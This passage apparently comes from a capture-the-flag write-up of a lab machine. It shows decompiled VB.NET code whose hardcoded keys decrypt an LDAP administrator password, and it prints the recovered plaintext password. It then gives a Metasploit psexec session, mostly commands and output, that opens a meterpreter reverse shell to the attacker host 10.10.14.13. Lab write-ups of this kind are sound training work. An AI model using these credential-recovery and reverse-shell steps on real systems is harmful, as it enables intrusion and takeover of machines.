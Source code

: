 Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
{% endhighlight %}

Using the `RU_config.xml` I attempted to decrypt returned a padding error. Looking further into the `KqdLdap.exe`, I found the following code in the `CR` function:

{% highlight bash linenos %}
' HqkLdap.CR
' Token: 0x06000012 RID: 18 RVA: 0x00002278 File Offset: 0x00000678
Public Shared Function DS(EncryptedString As String) As String
	If String.IsNullOrEmpty(EncryptedString) Then
		Return String.Empty
	End If
	Return CR.RD(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256)
End Function
{% endhighlight %}

This is a different set of encryption, different IV, string, and iteration. So, I placed this into the Decryption function of DbPof.exe, and with the administrator hash in the `RU_config.xml` file, I reran the DbProf.exe program from command prompt, and got the administrator password!

{% highlight bash linenos %}
DbPof.exe
XtH4nkS4Pl4y1nGX
{% endhighlight %}

I connected to SMB Share, but there was a shortcut link to the admins desktop. This was no good. So, I used metasploit (after multiple failed attempts with evil-winrm, impacket psexec.py, and winexec) psexec with reverse_tcp payload:

{% highlight bash linenos %}
msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp        

msf5 exploit(windows/smb/psexec) > set LHOST 10.10.14.13
LHOST => 10.10.14.13
msf5 exploit(windows/smb/psexec) > set LPORT 4538
LPORT => 4538
msf5 exploit(windows/smb/psexec) > set RHOSTS 10.10.10.178
RHOSTS => 10.10.10.178
msf5 exploit(windows/smb/psexec) > set SMBUser
SMBUser => 
msf5 exploit(windows/smb/psexec) > set SMBUser Administrator
SMBUser => Administrator
msf5 exploit(windows/smb/psexec) > set SMBPass XtH4nkS4Pl4y1nGX
SMBPass => XtH4nkS4Pl4y1nGX

msf5 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.13:4538 
[*] 10.10.10.178:445 - Connecting to the server...
[*] 10.10.10.178:445 - Authenticating to 10.10.10.178:445 as user 'Administrator'...
[*] 10.10.10.178:445 - Selecting PowerShell target
[*] 10.10.10.178:445 - Executing the payload...
[+] 10.10.10.178:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (180291 bytes) to 10.10.10.178
[*] Meterpreter session 1 opened (10.10.14.13:4538 -> 10.10.10.178:49157) at 2020-01-29 14:28:29 -0600

meterpreter > shell
Process 1456 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]